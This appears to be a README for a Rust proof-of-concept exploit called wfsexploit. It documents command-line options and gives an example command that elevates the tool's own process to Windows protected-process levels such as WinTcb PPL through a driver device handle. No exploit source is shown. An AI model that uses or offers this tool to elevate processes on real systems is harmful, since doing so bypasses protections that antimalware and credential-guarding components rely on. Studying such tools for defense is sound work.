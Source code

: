 # wfsexploit

This is a PoC writtn in Rust and allows you to use rich CLI features to make it what you like.

# Usage

```bash
> wfsexploit.exe -h

Usage: wfsexploit.exe [OPTIONS]

Options:
  -d, --device-name <DEVICE_NAME>  [default: \\.\htsysm7F34]
  -t, --prot-type <PROT_TYPE>      [default: ps-protected-type-protected] [possible values: ps-protected-type-none, ps-protected-type-protected-light, ps-protected-type-protected, ps-protected-type-max]
  -s, --prot-signer <PROT_SIGNER>  [default: ps-protected-signer-win-tcb] [possible values: ps-protected-signer-none, ps-protected-signer-authenticode, ps-protected-signer-code-gen, ps-protected-signer-antimalware, ps-protected-signer-lsa, ps-protected-signer-windows, ps-protected-signer-win-tcb, ps-protected-signer-win-system, ps-protected-signer-app, ps-protected-signer-max]
  -e, --exit-on-done
  -h, --help                       Print help information
  -V, --version                    Print version information
```

With the auguments you can specify what types of protection to elevate by commandline.

For example, below command will elevate the PoC process into WinTcb PPL.

```bash
wfsexploit.exe -t="ps-protected-type-protected-light" -s="ps-protected-signer-win-tcb"
```

# Build

```bash
cargo build --release
```

